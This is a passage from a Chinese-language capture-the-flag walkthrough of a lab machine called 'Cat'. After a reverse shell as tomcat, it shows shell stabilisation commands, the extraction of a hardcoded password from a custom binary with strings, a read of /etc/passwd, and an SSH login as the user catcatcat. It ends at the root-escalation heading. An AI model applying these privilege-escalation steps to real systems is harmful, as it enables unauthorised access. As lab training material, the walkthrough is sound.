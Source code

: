成功接收到反弹shell，当前用户为`tomcat`。

# **三、权限提升**

为了方便后续操作，我们首先对获取的非交互式shell进行稳定化处理。

```shell
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 36 columns 178
```

## 1. tomcat -> catcatcat

在目标系统中进行信息搜集，寻找可利用的提权线索。通过查找近期被修改过的文件，发现了两个可疑的二进制文件。

```bash
/usr/local/bin/catcatcat      2025-08-02   -rwxr-xr-x        16808
/usr/bin/imgcat               2025-08-02   -rwxr-xr-x       642040
```

`imgcat` 是一个在终端显示图片的工具。我们重点关注`catcatcat`这个自定义命令。使用`strings`命令检查该文件，发现硬编码的密码字符串。

```shell
tomcat@Cat:/tmp$ strings /usr/local/bin/catcatcat
...
password:this_is_cat_passwd
...
```

接下来，查看`/etc/passwd`文件，寻找可能与此密码对应的用户。

```shell
tomcat@Cat:/tmp$ cat /etc/passwd|grep bash
root:x:0:0:root:/root:/bin/bash
catcatcat:x:1000:1000:,,,:/home/catcatcat:/bin/bash
dog:x:1002:1001:,,,:/home/dog:/bin/bash
```

发现存在一个名为`catcatcat`的用户。使用该用户名和找到的密码`this_is_cat_passwd`通过SSH进行登录。（su切换不了，只可以使用ssh）

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ ssh catcatcat@192.168.205.149
catcatcat@192.168.205.149's password:
...
catcatcat@Cat:~$ id
uid=1000(catcatcat) gid=1000(catcatcat) groups=1000(catcatcat)
```

成功切换到`catcatcat`用户。

## 2. catcatcat -> root
